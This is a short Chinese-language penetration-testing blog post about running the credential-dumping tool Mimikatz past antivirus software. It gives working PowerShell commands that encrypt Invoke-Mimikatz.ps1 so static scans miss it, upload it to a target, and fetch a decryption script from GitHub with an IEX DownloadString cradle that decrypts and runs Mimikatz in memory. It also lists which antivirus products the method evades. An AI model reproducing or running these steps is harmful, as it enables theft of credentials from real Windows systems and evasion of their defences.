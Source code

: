 ```yaml
---
layout: post
title: 绕过杀软执行Mimikatz
date: 2020-11-03 23:30:00
tags: 域渗透
categories: hack 
author: PythonPig
---
```

* content
{:toc}

各路大神绕过杀软执行Mimikatz的方法有很多，在这里记录平时用到的方法，以下方法均来自网络，感谢各位大神。 

{:refdef: style="text-align: center;"}
![Mimikatz](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/绕过杀软执行Mimikatz/Mimikatz.jpg?raw=true) 
{: refdef}




图片来源于 https://www.izoologic.com/2019/07/31/mimikatz-ransomware-specially-designed-for-hacking/
### \#0x00 使⽤Out-EncryptedScript加密绕过查杀

通过加密脚本将Invoke-Mimikatz.ps1加密，加密后的文件可以绕过杀软的静态查杀，这里使用Powersploit提供的加解密脚本[Out-EncryptedScript](XXXXXXXXXXXXX)(Powersploit中还有其他加解密脚本)。  
具体方法如下：  
首先将Invoke-Mimikatz.ps1在本地加密。
```
Import-Module .\Out-EncryptedScript.ps1
Out-EncryptedScript -ScriptPath .\Invoke-Mimikatz.ps1 -Password RdGIA*@$ -Salt 7DX8oqHM
```
执行上述命令后将在本目录下生成加密后的文件evil.ps1。  
将evil.ps1上传至目标系统，通过powershell将解密脚本下载并加载至内存解密evil.ps1执行，执行如下命令可绕过部分杀软执行Mimikatz。  
已测试绕过的杀软包括360和McAfee，avast的web shield会阻止下载Out-EncryptedScript.ps1文件，无法绕过windows defender的RealTime Protection。
```
IEX(New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/TideSec/BypassAntiVirus/master/tools/mimikatz/Out-EncryptedScript.ps1")
[String] $cmd = Get-Content .\evil.ps1 
Invoke-Expression $cmd 
$decrypted = de RdGIA*@$ 7DX8oqHM
Invoke-Expression $decrypted 
Invoke-Mimikatz
```


### 参考
* [TideSec/BypassAntiVirus](https://github.com/TideSec/BypassAntiVirus)
